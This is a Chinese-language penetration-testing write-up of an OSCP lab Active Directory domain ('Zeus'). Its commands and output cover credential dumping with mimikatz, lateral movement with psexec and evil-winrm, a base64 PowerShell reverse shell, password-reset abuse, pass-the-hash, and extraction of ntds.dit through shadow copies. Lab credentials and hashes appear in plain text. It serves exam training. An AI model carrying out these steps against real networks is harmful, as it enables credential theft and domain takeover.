


# Zeus 靶機滲透測試紀錄

> [!info] **靶機基本資訊**
> - **平台**：OSCP Lab (Active Directory 域環境)
> - **作業系統**：Windows (Server 2019)
> - **難易度**：Hard
> - **開始時間**：2026-07-19

---

## 🔍 192.168.x.159 (CLIENT01) 滲透突破

### 1. 偵察與憑證驗證
使用 `nxc` 驗證已知的網域憑證，發現 `Eric.Wallows:EricLikesRunning800` 可以透過 WinRM 登入 `192.168.x.159`：
```bash
┌──(kali㉿kali)-[~/Desktop/Zeus]
└─$ nxc winrm 192.168.x.0 -u 'Eric.Wallows' -p EricLikesRunning800
WINRM       192.168.113.159 5985   CLIENT01         [*] Windows 10 / Server 2019 Build 19041 (name:CLIENT01) (domain:zeus.corp)
WINRM       192.168.113.158 5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:zeus.corp)
WINRM       192.168.113.159 5985   CLIENT01         [+] zeus.corp\Eric.Wallows:EricLikesRunning800 (Pwn3d!)
WINRM       192.168.113.158 5985   DC01             [-] zeus.corp\Eric.Wallows:EricLikesRunning800
Running nxc against 3 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

---

### 2. 初始存取與本機管理員權限
使用 `evil-winrm` 登入 `192.168.x.159`，發現目前使用者處於本地 `BUILTIN\Administrators` 群組中，可直接獲得管理員權限，並獲取 `proof.txt`：
```powershell
┌──(kali㉿kali)-[~/Desktop/Zeus]
└─$ evil-winrm -u 'Eric.Wallows' -p EricLikesRunning800 -i 192.168.113.159

Evil-WinRM shell v3.9

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                   

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> whoami
zeus\eric.wallows

*Evil-WinRM* PS C:\Users\eric.wallows\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ===============================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators               Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288
```
```powershell
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> ls C:\users -file -i proof.txt -r -ea 0


    Directory: C:\users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/11/2026   2:35 PM             34 proof.txt
```

---

### 3. 開啟 RDP 服務並導出憑證
修改登錄檔開啟 RDP 服務，確認連接埠正常監聽：
```powershell
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
The operation completed successfully.

*Evil-WinRM* PS C:\Users\eric.wallows\Documents> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server
    fDenyTSConnections    REG_DWORD    0x0

*Evil-WinRM* PS C:\Users\eric.wallows\Documents> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp
    PortNumber    REG_DWORD    0xd3d
```

使用 `xfreerdp3` 登入 `192.168.x.159`，上傳並執行 `mimikatz.exe` 導出內存憑證：
```powershell
c:\Users\eric.wallows\Desktop>.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

........

         * Username : o.foller
         * Domain   : ZEUS.CORP
         * Password : EarlyMorningFootball777

........
```
成功取得域帳戶憑證：**`o.foller:EarlyMorningFootball777`**。

---
---

## 🔍 192.168.x.160 (CLIENT02) 橫向移動與敏感文件列舉

### 1. 驗證與 PsExec 登入
使用 `nxc` 驗證憑證，確認 `o.foller` 帳戶在 `CLIENT02` (192.168.113.160) 具有本機管理員權限：
```bash
┌──(kali㉿kali)-[~/Desktop/Zeus]
└─$ nxc smb 192.168.x.0 -u 'o.foller' -p EarlyMorningFootball777
SMB         192.168.113.158 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:zeus.corp) (signing:True) (SMBv1:None)
SMB         192.168.113.159 445    CLIENT01         [*] Windows 10 / Server 2019 Build 19041 x64 (name:CLIENT01) (domain:zeus.corp) (signing:False) (SMBv1:None)
SMB         192.168.113.160 445    CLIENT02         [*] Windows 10 / Server 2019 Build 19041 x64 (name:CLIENT02) (domain:zeus.corp) (signing:False) (SMBv1:None)
SMB         192.168.113.158 445    DC01             [+] zeus.corp\o.foller:EarlyMorningFootball777 
SMB         192.168.113.159 445    CLIENT01         [+] zeus.corp\o.foller:EarlyMorningFootball777 
SMB         192.168.113.160 445    CLIENT02         [+] zeus.corp\o.foller:EarlyMorningFootball777 (Pwn3d!)
```

透過 Impacket 工具包中的 `psexec` 登入 `CLIENT02`，取得 `SYSTEM` 權限 Shell 並獲取 `proof.txt`：
```bash
┌──(kali㉿kali)-[~/Desktop/Zeus]
└─$ impacket-psexec zeus.corp/o.foller:EarlyMorningFootball777@192.168.113.160
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.113.160.....
[*] Found writable share ADMIN$
[*] Uploading file VhTBoxje.exe
[*] Opening SVCManager on 192.168.113.160.....
[*] Creating service VFlA on 192.168.113.160.....
[*] Starting service VFlA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19042.631]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> powershell -c "ls C:\users -file -i proof.txt -r -ea 0"


    Directory: C:\users\Administrator\Desktop


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         6/11/2026   2:35 PM             34 proof.txt
```

---

### 2. 搜尋敏感檔案
在系統中執行 `mimikatz` 導出憑證無果，但在進行檔案列舉時，在 `z.thomas` 使用者的下載目錄中發現了一個 Onboarding 導引文件：
```powershell
C:\Windows\system32> dir c:\users\z.thomas\Downloads
 Volume in drive C has no label.
 Volume Serial Number is FCF3-9653

 Directory of c:\users\z.thomas\Downloads

06/26/2022  09:23 PM    <DIR>          .
06/26/2022  09:23 PM    <DIR>          ..
06/26/2022  09:14 PM             6,454 Onboarding Document.docx
               1 File(s)          6,454 bytes
               2 Dir(s)  29,755,371,520 bytes free
```

將該 `Onboarding Document.docx` 傳回 Kali 攻擊主機（或下載至 CLIENT01）查看，成功在文件內容中發現另一域帳戶的明文憑證：
*   **帳號**：`z.thomas`
*   **密碼**：`^1+>pdRLwyct]j,CYmyi`


---
---

## 🔍 192.168.x.158 (域控制器 DC01) 滲透接管

### 1. 偵察與初始登入
使用 `nxc` 驗證，確認 `z.thomas` 具有透過 WinRM 登入 `DC01` (192.168.113.158) 的權限：
```bash
┌──(kali㉿kali)-[~/Desktop/Zeus]
└─$ nxc winrm 192.168.x.0 -u 'z.thomas' -p '^1+>pdRLwyct]j,CYmyi'
WINRM       192.168.113.158 5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:zeus.corp)
WINRM       192.168.113.159 5985   CLIENT01         [*] Windows 10 / Server 2019 Build 19041 (name:CLIENT01) (domain:zeus.corp)
WINRM       192.168.113.158 5985   DC01             [+] zeus.corp\z.thomas:^1+>pdRLwyct]j,CYmyi (Pwn3d!)
WINRM       192.168.113.159 5985   CLIENT01         [-] zeus.corp\z.thomas:^1+>pdRLwyct]j,CYmyi
```

使用 `evil-winrm` 登入 `DC01` 並獲取 `local.txt`：
```bash
┌──(kali㉿kali)-[~/Desktop/Zeus]
└─$ evil-winrm -u 'z.thomas' -p '^1+>pdRLwyct]j,CYmyi' -i 192.168.113.158

Evil-WinRM shell v3.9

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline                                                                                        

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                   

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\z.thomas\Documents> whoami
zeus\z.thomas
*Evil-WinRM* PS C:\Users\z.thomas\Documents> ls C:\users -file -i local.txt -r -ea 0


    Directory: C:\users\z.thomas\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/11/2026   2:35 PM             34 local.txt
```

---

### 2. BloodHound 域內 ACL 分析
在 Kali 攻擊機端編輯 `/etc/hosts` 以確保解析域控名稱：
```bash
┌──(kali㉿kali)-[~/Desktop/Zeus]
└─$ cat /etc/hosts

............

192.168.113.158 DC01.zeus.corp zeus.corp
```

使用 `bloodhound-python` 進行資訊收集：
```bash
┌──(kali㉿kali)-[~/Desktop/Zeus]
└─$ bloodhound-python -u 'z.thomas' -p '^1+>pdRLwyct]j,CYmyi' -d zeus.corp -ns 192.168.113.158 -c all
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: zeus.corp
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.zeus.corp

..........
```

將產生的 JSON 匯入 BloodHound 中進行分析。結果顯示域帳戶 `z.thomas` 對域帳戶 `d.chambers` 擁有 **`GenericAll`** 權限，這允許 `z.thomas` 強制修改 `d.chambers` 的密碼：


---

### 3. GenericAll 權限濫用強制重設密碼
為了操作方便，先使用 PowerShell 執行 Base64 連回一個正常的交互式 reverse shell：
```powershell
*Evil-WinRM* PS C:\Users\z.thomas\Documents> powershell -e JABjAGwAaQBlAG4AdAAgA..........
```
```bash
┌──(kali㉿kali)-[~/Desktop/Zeus]
└─$ rlwrap nc -lvnp 4444              
listening on [any] 4444 ...
connect to [192.168.45.160] from (UNKNOWN) [192.168.113.158] 55949

PS C:\Users\z.thomas\Documents> whoami
zeus\z.thomas
```

在域 Shell 中，直接利用 `GenericAll` 權限執行 `net user` 命令，強制將域帳號 `d.chambers` 的密碼修改為 `password`：
```powershell
PS C:\Users\z.thomas\Documents> net user d.chambers password /domain
The command completed successfully.
```

使用 `nxc` 驗證，確認重設密碼成功，且 `d.chambers` 可透過 WinRM 登入域控制器 `DC01`：
```bash
┌──(kali㉿kali)-[~/Desktop/Zeus]
└─$ nxc winrm 192.168.x.0 -u 'd.chambers' -p password                            
WINRM       192.168.113.159 5985   CLIENT01         [*] Windows 10 / Server 2019 Build 19041 (name:CLIENT01) (domain:zeus.corp)
WINRM       192.168.113.158 5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:zeus.corp)
WINRM       192.168.113.159 5985   CLIENT01         [-] zeus.corp\d.chambers:password
WINRM       192.168.113.158 5985   DC01             [+] zeus.corp\d.chambers:password (Pwn3d!)
```

---

### 4. SeBackupPrivilege 特權提權 (Dumping NTDS.dit)
使用 `evil-winrm` 登入 `192.168.113.158` (DC01)，發現 `d.chambers` 帳戶擁有 `SeBackupPrivilege` 特權：
```bash
┌──(kali㉿kali)-[~/Desktop/Zeus]
└─$ evil-winrm -u 'd.chambers' -p password -i 192.168.113.158

Evil-WinRM shell v3.9

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline                                                                                        

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                   

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\d.chambers\Documents> whoami
zeus\d.chambers
*Evil-WinRM* PS C:\Users\d.chambers\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

先連回正常的交互式 reverse shell 繞過 WinRM 原生的複製限制。直接從 `hklm` 中匯出 `system` 與 `sam` 註冊表檔案：
```powershell
PS C:\Users\d.chambers\Documents> reg save hklm\system C:\Users\Public\system.bak
The operation completed successfully.

PS C:\Users\d.chambers\Documents> reg save hklm\sam C:\Users\Public\sam.bak
The operation completed successfully.
```

將這兩個備份檔案下載回攻擊機 Kali 本地，使用 `impacket-secretsdump` 進行轉儲：
```bash
┌──(kali㉿kali)-[~/Desktop/Zeus]
└─$ impacket-secretsdump -sam sam.bak -system system.bak LOCAL
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xf7d6d584287ffb4f29364a67bc20d85b
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:650836aac5e819c6afb991606f63f5c3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up...
```
成功取得本機管理員 Administrator 的 NTLM Hash：**`650836aac5e819c6afb991606f63f5c3`**。

---

### 5. PsExec 登入域控 (Pass-the-Hash)
使用獲取的管理員 Hash 透過 `psexec` 登入 `DC01` (192.168.113.158)，取得整個網域的最高 SYSTEM 權限 Shell 並拿到最後的 `proof.txt`：
```bash
┌──(kali㉿kali)-[~/Desktop/Zeus]
└─$ impacket-psexec administrator@192.168.113.158 -hashes :650836aac5e819c6afb991606f63f5c3
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.113.158.....
[*] Found writable share ADMIN$
[*] Uploading file FJEwLeDf.exe
[*] Opening SVCManager on 192.168.113.158.....
[*] Creating service bsGj on 192.168.113.158.....
[*] Starting service bsGj.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.6530]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> powershell -c "ls C:\users -file -i proof.txt -r -ea 0"


    Directory: C:\users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        6/11/2026   2:35 PM             34 proof.txt 
```
成功接管整個 Zeus.corp 網域。

---
---

## 💡 補充：SeBackupPrivilege 快照掛載與 NTDS.dit 提取


由於 `evil-winrm` 具有指令限制，無法直接讀取未掛載的快照路徑（例如 `\\?\GLOBALROOT\...`）。為了提取全網域憑證，需要將快照掛載為可讀取的磁碟區（如 `X:\`）。以下說明兩種常見的快照掛載手段：

### 方法一：使用 vshadow.exe 建立與掛載快照
```powershell
# 1. 建立快照並獲取 Snapshot ID
*Evil-WinRM* PS C:\Users\d.chambers\Documents> cmd.exe /c "vshadow.exe -nw -p C:"

# 2. 將快照掛載至 X:\
*Evil-WinRM* PS C:\Users\d.chambers\Documents> cmd.exe /c "vshadow.exe -el={<SNAPSHOT_ID>},X:"
```

### 方法二：使用 Windows 內建 diskshadow 腳本建立與掛載快照
1.  **建立腳本檔案 `shadow.txt`**：
    在本地端編輯含有以下內容的文字檔。
    ```text
    set context persistent nowriters
    set metadata C:\Windows\Temp\meta.cab
    add volume C: alias pwn
    create
    expose %pwn% X:
    ```
    *(注意：若在 Linux 端建立，請執行 `unix2dos shadow.txt` 轉換換行格式為 Windows CRLF)*
2.  **上傳並執行腳本**（確認換行符為 `0D 0A`）：
```powershell
*Evil-WinRM* PS C:\Users\d.chambers\Documents> upload shadow.txt

*Evil-WinRM* PS C:\Users\d.chambers\Documents> Format-Hex C:\Users\d.chambers\Documents\shadow.txt | Select-Object -First 3


           Path: C:\Users\d.chambers\Documents\shadow.txt

           00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

00000000   73 65 74 20 63 6F 6E 74 65 78 74 20 70 65 72 73  set context pers
00000010   69 73 74 65 6E 74 20 6E 6F 77 72 69 74 65 72 73  istent nowriters
00000020   0D 0A 73 65 74 20 6D 65 74 61 64 61 74 61 20 43  ..set metadata C


*Evil-WinRM* PS C:\Users\d.chambers\Documents> diskshadow /s C:\Users\d.chambers\Documents\shadow.txt

..........

The shadow copy was successfully exposed as X:\.
```

### 複製資料庫檔案
快照掛載至 `X:\` 後，使用具有備份功能的 `robocopy /B` 指令繞過 UAC 限制，複製出活動中的 active directory 資料庫與登錄檔：
```powershell
*Evil-WinRM* PS C:\Users\d.chambers\Documents> robocopy "X:\Windows\NTDS\" C:\Users\d.chambers\Documents\ ntds.dit /B

*Evil-WinRM* PS C:\Users\d.chambers\Documents> robocopy "X:\Windows\System32\config\" C:\Users\d.chambers\Documents\ SYSTEM /B
```

### 本地解密轉儲
下載回 Kali 本地端後，使用 `secretsdump` 導出域內所有帳號的 NTLM Hashes：
```bash
┌──(kali㉿kali)-[~/Desktop/Zeus]
└─$ impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xf7d6d584287ffb4f29364a67bc20d85b
Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
PEK # 0 found and decrypted: b4b5eddc36aa94cae868671db17a5a3c
Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:650836aac5e819c6afb991606f63f5c3:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ee77b03ce4c7f801c95c4a82f2d9f2ec:::
...
```
這能獲取全網域的 NTLM hashes。
